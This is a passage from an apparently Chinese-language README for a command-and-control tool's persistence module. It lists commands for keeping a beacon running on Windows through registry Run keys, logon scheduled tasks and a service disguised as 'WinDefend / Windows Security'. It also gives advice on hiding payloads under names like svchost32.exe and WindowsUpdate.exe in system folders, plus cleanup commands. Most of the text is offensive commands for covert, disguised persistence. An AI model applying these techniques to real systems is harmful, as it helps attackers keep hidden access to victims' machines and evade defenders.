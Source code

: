 
## 🎯 使用场景

### 低权限持久化
**用户权限** → Registry Run Keys (HKCU)
```bash
persist registry-run --add Update C:\Users\Public\update.exe
```

### 高权限隐蔽持久化
**Admin权限** → Scheduled Task
```bash
persist schtask --create WinUpdate C:\Windows\System32\update.exe --trigger ONLOGON
```

### 最强持久化
**Admin/SYSTEM** → Service
```bash
persist service --create WinDefend "Windows Security" C:\Windows\System32\svc.exe --auto
persist service --start WinDefend
```

---

## ⚠️ 注意事项

### 1. Beacon 类型
- **Registry/Schtask**: 普通 beacon
- **Service**: 需要服务模式 beacon 或服务包装器

### 2. 路径选择
推荐使用系统相关目录：
- `C:\Windows\Temp\`
- `C:\Users\Public\`
- `C:\ProgramData\`
- `C:\Windows\System32\` (需要admin)

### 3. 命名建议
使用系统相关名称增强隐蔽性：
- `WindowsUpdate.exe`
- `SecurityService.exe`
- `svchost32.exe`

### 4. 清理
退出前务必清理持久化：
```bash
persist registry-run --remove YourApp
persist schtask --delete YourTask
persist service --delete YourService
```

---